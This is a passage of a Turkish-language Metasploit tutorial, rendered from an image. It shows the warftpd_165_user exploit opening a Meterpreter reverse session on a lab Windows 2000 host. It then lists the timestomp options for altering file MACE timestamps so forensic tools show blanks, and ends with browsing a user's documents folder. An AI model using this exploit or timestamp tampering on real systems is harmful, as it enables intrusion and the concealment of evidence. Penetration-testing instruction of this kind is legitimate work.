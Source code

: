 

Yukarıda, `test.txt` isimli dosyanın zaman kayıtlarını görebiliriz. Şimdi, `warftpd_165_user` modülünü kullanarak bu sistemde `Meterpreter` oturum açtığımızı farz edelim.


```bash
msf exploit**(**warftpd_165_user**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Connecting to FTP server 172.16.104.145:21...
**[*********]** Connected to target FTP server.
**[*********]** Trying target Windows 2000 SP0-SP4 English...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** meterpreter session 1 opened **(**172.16.104.130:4444 -> 172.16.104.145:1218**)**
meterpreter **>** use priv
Loading extension priv...success.
```



Meterpreter shell açıldıktan sonra `timestomp -h` komutu ile yardım bilgilerini görüntüleyebilirsiniz.


```bash
meterpreter **>** timestomp -h

Usage: timestomp OPTIONS file_path

OPTIONS:

    -a   Set the "last accessed" time of the file
    -b        Set the MACE timestamps so that EnCase shows blanks
    -c   Set the "creation" time of the file
    -e   Set the "mft entry modified" time of the file
    -f   Set the MACE of attributes equal to the supplied file
    -h        Help banner
    -m   Set the "last written" time of the file
    -r        Set the MACE timestamps recursively on a directory
    -v        Display the UTC MACE values of the file
    -z   Set all four attributes **(**MACE**)** of the file
```



Şimdi, yukarıda örneğini verdiğimiz `test.txt` dosyasının bulunduğu klasöre gidelim.


```bash
meterpreter **>** pwd
C:\Program Files\War-ftpd
meterpreter **>** cd ..
meterpreter **>** pwd
C:Program Files
meterpreter **>** cd ..
meterpreter **>** cd Documents\ and\ Settings
meterpreter **>** cd P0WN3D
meterpreter **>** cd My\ Documents
meterpreter **>** ls

Listing: C:\Documents and Settings\P0WN3D\My Documents
**======================================================**

Mode              Size  Type  Last modified                   Name        
----              ----  ----  -------------                   ----        
```